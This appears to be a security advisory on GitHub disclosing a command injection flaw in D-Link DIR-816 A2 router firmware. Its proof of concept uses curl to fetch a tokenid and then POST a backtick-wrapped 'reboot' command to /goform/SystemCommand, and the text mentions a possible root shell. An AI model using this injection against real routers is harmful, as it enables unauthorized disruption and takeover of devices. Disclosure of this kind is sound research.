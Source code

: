 # D-link DIR-816 A2_v1.10CNB04.img Command injection vulnerability

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/SystemCommand/img/vuln1.png)

Vulnerability occurs in /goform/SystemCommand

After the user passes in the command parameter, it will be spliced into byte_4836B0 by snprintf, and finally doSystem(&byte_4836B0); will be executed, resulting in a command injection vulnerability

## Poc

The first thing you need to do is to get the tokenid

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then run the following poc

```
curl -i -X POST http://192.168.0.1/goform/SystemCommand -d tokenid=xxxx -d 'command=`reboot`'
```

Then we can see that the router restarts, and finally we can write an exp to get a root shell
